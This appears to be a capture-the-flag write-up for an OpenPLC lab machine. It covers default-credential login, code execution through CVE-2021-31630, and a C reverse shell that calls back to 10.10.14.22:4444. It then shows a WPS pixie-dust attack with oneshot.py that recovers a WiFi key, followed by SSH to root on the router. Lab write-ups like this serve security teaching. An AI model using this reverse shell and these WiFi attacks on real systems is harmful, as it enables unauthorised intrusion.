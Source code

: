 # Season 4 | Linux Machine | Medium

## Port Scanning : 
		```bash
		PORT     STATE SERVICE
		22/tcp   open  ssh
		8080/tcp open  http-proxy
		```
## Foothold :

Port 8080 appears to be an openplc webserver 

+ [1] : Dirbusting -> nothing interesting
+ [2] : Code source-> nothing interesting

+ [3] : default credentials : openplc , openplc 
		RCE by injection program compiled in C - cve 2021-31630

## Revshell 
	On /hardware :

				#include <stdio.h>
				#include <sys/socket.h>
				#include <sys/types.h>
				#include <stdlib.h>
				#include <unistd.h>
				#include <netinet/in.h>
				#include <arpa/inet.h>

init function->
			    int port = 4444;
			    struct sockaddr_in revsockaddr;

			    int sockt = socket(AF_INET, SOCK_STREAM, 0);
			    revsockaddr.sin_family = AF_INET;       
			    revsockaddr.sin_port = htons(port);
			    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.22");

			    connect(sockt, (struct sockaddr *) &revsockaddr, 
			    sizeof(revsockaddr));
			    dup2(sockt, 0);
			    dup2(sockt, 1);
			    dup2(sockt, 2);

			    char * const argv[] = {"/bin/bash", NULL};
			    execvp("/bin/bash", argv);
			    
## Wifi pentesting hacktricks 

- [+] : Pixie dust : oneshot.py reveals ssid and more

		root@attica01:/tmp# python3 ./oneshot.py -i wlan0 
		Networks list:
		#    BSSID              ESSID                     Sec.     PWR  WSC device name             WSC model
		1)   02:00:00:00:01:00  plcrouter                 WPA2     -30  



## Output of oneshot.py conf file :

			ctrl_interface=/tmp/tmpdqiiy53e
			ctrl_interface_group=root
			update_config=1

			network={
				ssid="plcrouter"
				psk="NoWWEDoKnowWhaTisReal123!"
				proto=RSN
				key_mgmt=WPA-PSK
				pairwise=CCMP-256 GCMP-256 CCMP GCMP
				group=CCMP-256 GCMP-256 CCMP GCMP TKIP
				auth_alg=OPEN
				mesh_fwding=1
			}


## Connect to wifi network : 

- [+] : Follow this line by line  https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant



- [+] : wpa-cli:

			> status
			bssid=02:00:00:00:01:00
			freq=2412
			ssid=plcrouter
			id=0
			mode=station
			pairwise_cipher=CCMP
			group_cipher=CCMP
			key_mgmt=WPA2-PSK
			wpa_state=COMPLETED
			ip_address=192.168.1.84
			p2p_device_address=42:00:00:00:02:00
			address=02:00:00:00:02:00
			uuid=a134bcd4-edf6-548b-87e5-49d3aedf9b60

- [+] : ifconfig shows ip adress && netstat -nr shows 192.168.1.1

- [+] : ssh root@192.168.1.1 



